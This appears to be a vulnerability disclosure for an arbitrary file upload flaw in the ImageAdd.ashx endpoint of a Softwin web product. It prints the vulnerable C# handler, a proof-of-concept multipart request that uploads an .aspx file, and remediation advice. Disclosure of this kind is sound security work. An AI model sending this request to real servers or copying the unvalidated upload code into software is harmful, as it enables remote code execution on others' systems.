![image-20250225200928510](./assets/image-20250225200928510.png)

# Vulnerability Report
## Vendor Homepage
http://www.softwin.cc/pd.jsp?id=1

## Title: Arbitrary File Upload Vulnerability in ImageAdd.ashx
### Summary:
The `ImageAdd` endpoint in the provided code snippet lacks proper validation when handling file uploads, leading to a file upload vulnerability.

### Affected Endpoint:
`/ImageAdd.ashx`

### Vulnerability Type:
RCE

### Vulnerable Code:
```c#
public class ImageAdd : IHttpHandler
{
    public void ProcessRequest(HttpContext context)
    {
        context.Response.ContentType = "text/plain";
        var b = true;
        var msg = "";
        try
        {
            var file = context.Request.Files[0];
            var fileName = file.FileName;
            var path = Path.Combine(HttpRuntime.AppDomainAppPath, "upload", DateTime.Now.ToString("yyyyMMdd"));
            if (!Directory.Exists(path))
            {
                Directory.CreateDirectory(path);
            }
            var nn = Path.Combine(path, fileName);
            file.SaveAs(nn);
            msg = "/upload/" + DateTime.Now.ToString("yyyyMMdd") + "/" + fileName;
        }
        catch (Exception ex)
        {
            b = false;
            msg = "图片上传失败" + ex.Message;
        }
        context.Response.Write((b ? 0 : 99) + "$" + msg + "");
    }

    public bool IsReusable
    {
        get
        {
            return false;
        }
    }
}
```

### Proof of Concept (PoC):
```http
POST /ImageAdd.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update1.aspx"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

### Impact:
An attacker can exploit this vulnerability to upload arbitrary files to the server, potentially leading to remote code execution (RCE) or other security risks.

### Recommendation:
1. Implement proper file type validation to ensure that only allowed file types are uploaded.
2. Store uploaded files outside of the web root directory to prevent direct access.
3. Implement authentication and authorization checks before allowing file uploads.

### Conclusion:
The lack of input validation in the `ImageAdd` endpoint allows attackers to upload malicious files, posing a significant security risk to the application. It is crucial to address this vulnerability promptly to prevent potential exploitation.

### References:
- OWASP File Upload Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html

